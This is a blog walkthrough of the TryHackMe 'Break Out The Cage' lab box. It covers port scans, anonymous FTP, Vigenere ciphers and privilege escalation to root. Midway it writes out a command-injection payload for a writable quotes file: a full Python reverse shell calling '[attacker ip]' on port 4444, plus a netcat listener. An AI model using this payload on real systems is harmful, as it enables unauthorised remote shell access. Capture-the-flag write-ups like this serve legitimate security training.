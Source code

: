 ```yaml
---
layout: post
title: "Break Out The Cage - TryHackMe"
date: 2020-07-11
excerpt: "Walkthrough for Break Out The Cage on TryHackme"
tags: [Break Out The Cage, TryHackMe, encryption, email]
comments: false
---
```




Break Out the Cage is another recently released easy box on [TryHackme](https://www.tryhackme.com). Let's start off with a port scan with **nmap -p- -T4 [machine ip]** This will return 3 open ports: ftp, ssh, and http. 

![Break Out The Cage nmap1](/assets/img/BreakOutTheCage1.png)

Let's enumerate these 3 ports with **nmap -sC -sV -O -p 21,22,80 [machine ip]**

![Break Out The Cage nmap2](/assets/img/BreakOutTheCage2.png)

It appears that there is anonymous FTP access open, let's login as anonymous with **ftp [machine ip]** and enter **anonymous** for the username and password. We are able to successfully connect. I tried to list the directory and received an error so I change the mode to passive with **passive** and I was able to run **ls**. There was a file named **dad_tasks**, that I saved locally to my machine with **get dad_tasks**. I then exited the FTP site with **bye**

![Break Out The Cage ftp dad_tasks](/assets/img/BreakOutTheCage3.png)

Running **cat dad_tasks** from my local machine gives me results that are encoded, most likely in base 64.

![Break Out The Cage cat dad_tasks](/assets/img/BreakOutTheCage4.png)

Let's run **cat dad_tasks | base64 -d** to decode it from base64. This gives us a different type of encoding.

![Break Out The Cage base64 decode](/assets/img/BreakOutTheCage5.png)

This appears to be some sort of cipher. I tried several, and ended up finding out it is a Vigenere cipher. Since I didn't have the key, I used a [Vigenere solver](https://www.guballa.de/vigenere-solver) to assist with cracking this, which results in the following.

![Break Out The Cage Vigenere Cipher](/assets/img/BreakOutTheCage6.png)

The last line contains what appears to be Weston's password, which is the answer to question one.

Now that we have a password, let's try to ssh in as weston with **ssh weston@[machine ip]**. Enter the password that was recovered above. Success, now we are logged in as weston.

![Break Out The Cage ssh user access](/assets/img/BreakOutTheCage7.png)

Let's see what weston can run as root with **sudo -l**. We are given the following results:

![Break Out The Cage sudo -l](/assets/img/BreakOutTheCage8.png)

Let's run that file and see what happens. It prints some text. Running **cat /usr/bin/bees** shows you that this is a bash script.

![Break Out The Cage bees](/assets/img/BreakOutTheCage25.png)

Unfortunately, we are not able to edit this file. However, every few minutes a broadcast message from cage comes up.

![Break Out The Cage broadcast](/assets/img/BreakOutTheCage9.png)

We are not able to access cage's home directory as weston. However, if we run **id**, we can see that weston is part of both the weston and cage groups

![Break Out The Cage id](/assets/img/BreakOutTheCage10.png)

Let's use **find / -group "cage" -print 2>/dev/null** to find all files with the group owner of cage.

![Break Out The Cage find](/assets/img/BreakOutTheCage12.png)

We already know we don't have access to /home/cage, but let's try to navigate to /opt/.dads_scripts/ with **cd /opt/.dads_scripts** and view directory contents and permissions with **ls -al**

![Break Out The Cage dads_scripts](/assets/img/BreakOutTheCage13.png)

It appears we only have read to the python script, so we can't modify it directly. Let's view the contents of the script to see what it does with **cat spread_the_quotes.py**

![Break Out The Cage spread_the_quotes.py](/assets/img/BreakOutTheCage14.png)

It looks like it is opening a file in /opt/.dads_scripts/.files/.quotes and reading a random line and then echoing it. Let's navigate to that directory with **cd /opt/.dads_scripts/.files/**. Next let's run **ls -al**. It appears we have access to write to the **.quotes** file as the cage group has write permissions to it.

![Break Out The Cage .files](/assets/img/BreakOutTheCage15.png)

Let's run **vi .quotes** to open up the contents for editing and delete everything out of the file. This can be done by pressing **dd** over and over until all the lines are deleted. Next, press Insert and  **-- INSERT --** should show up at the bottom of the screen. This allows you to enter in new information. Let's enter the following: **"test" && python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[attacker ip]",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'**. This will end the wall command's input which will send out test as a broadcast, and then && will run the command after, which is a way to create a reverse shell. Next, press escape followed by **:wq!** to write and quit vim. 

![Break Out The Cage .quotes](/assets/img/BreakOutTheCage16.png)

In another terminal window, run **nc -nvlp 4444** and wait a few minutes for the script to run. You should receive a reverse shell connection as cage. Running **whoami** confirms this and running **ls -al** shows an **email_backup** directory and a file called **Super_Duper_Checklist**. Let's view the contents of the Checklist first with **cat Super_Duper_Checklist**.

![Break Out the Cage cat Super_Duper_Checklist](/assets/img/BreakOutTheCage18.png)

This is the user flag for this box. Let's now see if cage has any sudo level permissions. Let's run **sudo -l**. Unfortunately, it asks for cage's password which we do not have. Let's go review the email_backup folder by typing in **cd email_backup**. Running **ls -al** shows 3 files here. Using **cat em*** will type the contents of all 3 emails.

![Break Out The Cage email_backup](/assets/img/BreakOutTheCage19.png)

The emails mention a Face Off sequel and have several references to the word face in them. The last email has something interesting in it based on a weird note from the agent.

![Break Out The Cage email_3](/assets/img/BreakOutTheCage20.png)

This appears to be another encrypted message. Let's see if this is also a Vigenere cipher. The word face is mentioned over and over and over in these emails, so let's see if that's the key to the cipher. Since we are assuming this is the correct key, let's use this [Vigenere Cipher Decoder](https://www.boxentriq.com/code-breaking/vigenere-cipher) to decode the cipher.

![Break Out The Cage Vignere Cipher Decoder](/assets/img/BreakOutTheCage21.png)

In the 3rd email, it states that it likely has something to do with his account on this server. Since there are no other users, it's safe to assume that this could potentially be the password for root. Let's run **su root** and enter the password we obtained above.

![Break Out The Cage su root](/assets/img/BreakOutTheCage22.png)

Success! We now have root access. Let's see if we can find the root flag now. Let's navigate to root's home folder with **cd /root** and run **ls -al**. We will see an email_backup folder. Let's navigate to it with **cd email_backup** and run **ls **, we see two emails in this folder.

![Break Out the Cage finding root flag](/assets/img/BreakOutTheCage23.png)



Let's run **cat em*** to view their contents. In the bottom of the second email is the root flag.

![](/assets/img/BreakOutTheCage24.png)

Success, this is the root flag for this challenge!
